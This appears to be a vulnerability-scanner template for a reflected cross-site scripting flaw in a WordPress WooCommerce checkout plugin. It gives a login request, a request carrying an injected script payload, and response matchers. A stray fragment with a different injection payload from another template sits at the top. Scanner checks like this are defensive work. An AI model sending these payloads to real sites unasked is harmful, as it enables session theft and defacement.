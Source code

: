 **Type - word**
- part - body
- words
    1. "hash":"\<img src=x onerror=alert(document.domain)>"
    2. "errors"
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Checkout Fields Manager for WooCommerce \<5.5.7 - Cross-Site Scripting
## Description
- WordPress Checkout Fields Manager for WooCommerce 5.5.7 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - xss,wp,wordpress,authenticated,woocommerce,wpscan,wp-plugin
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=wc-settings&tab=wooccm&section=advanced&">-->\<script>alert(1)\</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. >-->\<script>alert(1)\</script>&action=wooccm_nuke_options&
